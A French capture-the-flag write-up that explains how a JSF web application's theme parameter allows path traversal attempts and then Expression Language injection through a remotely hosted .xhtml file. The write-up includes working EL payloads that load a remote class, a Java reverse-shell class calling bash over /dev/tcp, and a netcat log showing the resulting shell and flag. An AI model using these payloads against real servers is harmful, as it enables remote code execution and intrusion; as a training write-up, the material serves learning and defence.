

# Write-up

Pour commencer le challenge, on se connecte à l'URL spécifiée. On peut y découvrir une page qui fait des conversions inutiles sur une chaîne de caractères spécifée par l'utilisateur. Le formulaire compte en plus une liste déroulante de thèmes que peut choisir l'utilisateur.


Si l'on s'intéresse à la source de la page, on remarque le passage ci-dessous (nettoyé pour faciliter la lecture).

```html
<label for="theme">Theme</label>
<select id="theme">
	<option value="light.xhtml">Light</option>
	<option value="dark.xhtml">Dark</option>
</select>
```

On constate que les thèmes sont en fait directement un chemin vers un fichier `.xhtml` envoyé en paramètre d'une requête `POST`. On peut dans un premier temps essayer des chemins classiques, comme `../../../../../passwd`.




Visiblement cela ne fonctionne pas. Tant pis, cherchons autre chose. Une deuxième idée est d'essayer avec des URLs distantes, et en se renseignant un peu sur les *JavaServer Faces* on peut venir essayer le bout de code ci-dessous. Ce dernier fait intervenir un langage appelé EL, pour *Expression Language*, qui va interpréter le "code" situé entre `${...}`.

```xml
<ui:composition
        xmlns="http://www.w3.org/1999/xhtml"
        xmlns:f="http://java.sun.com/jsf/core"
        xmlns:h="http://java.sun.com/jsf/html"
        xmlns:ui="http://java.sun.com/jsf/facelets">
    <h:inputText id="a" value='${1+2+3+4+5}'/>
</ui:composition>
```


Nous obtenons un nouveau champ, dont le contenu est le résultat de l'interprétation de `1+2+3+4+5`. Ce type de fonctionnalités est évidemment très dangereux, et a été exploité à de nombreuses reprises.

On adaptant le code donné dans [cet article](http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/) à notre environnement, nous pouvons faire arriver à faire exécuter n'importe quel code Java à notre serveur Web. Une des idées est alors d'écrire un *reverse shell*.

```xml
<ui:composition
        xmlns="http://www.w3.org/1999/xhtml"
        xmlns:f="http://java.sun.com/jsf/core"
        xmlns:h="http://java.sun.com/jsf/html"
        xmlns:ui="http://java.sun.com/jsf/facelets">
    <h:inputText id="a" value='${session.getServletContext().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}'/>
    <h:inputText id="b" value='${session.getServletContext().getAttribute("arr").add(session.getServletContext().getResource("/").toURI().create("https://neat.sh/").toURL())}'/>
    <h:inputText id="c" value='${session.getServletContext().getClass().getClassLoader().getParent().newInstance(session.getServletContext().getAttribute("arr").toArray(session.getServletContext().getClass().getClassLoader().getParent().getURLs())).loadClass("ReverseShell").newInstance()}'/>
</ui:composition>
```

```java
public class ReverseShell {
    private static final String HOST = "neat.sh";
    private static final String PORT = "12345";

    public ReverseShell() {
        try {
            Runtime r = Runtime.getRuntime();
            PrintWriter pw = new PrintWriter("/tmp/shell.sh", "UTF-8");
            pw.println("/bin/bash -i >& /dev/tcp/" + HOST + "/" + PORT + " 0>&1");
            pw.close();

            File f = new File("/tmp/shell.sh");
            f.deleteOnExit();
            f.setExecutable(true, false);
            f.setReadable(true, false);
            f.setWritable(true, false);

            Process p = r.exec("/bin/bash /tmp/shell.sh");
            p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```

Il faut au préalable mettre les deux fichiers `sploit.xml` et le fichier `ReverseShell.class` sur notre serveur Web distant, puis lancer un `netcat` en écoute sur le port 12345. Lors de l'envoi de la requête, nous constatons.

```bash
root@ns3289197:~# nc -vvl -p 12345
listening on [any] 12345 ...
Warning: forward host lookup failed for 37-161-6-219.coucou-networks.fr: Unknown host
connect to [5.135.180.92] from 37-161-6-219.coucou-networks.fr [37.161.6.219] 2089
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
tomcat7@2ab41e9a74dc:/var/lib/tomcat7$ cat /home/tomcat7/flag.txt
cat /home/tomcat7/flag.txt
THC{java_reflection_api_wizard}
tomcat7@2ab41e9a74dc:/var/lib/tomcat7$
```

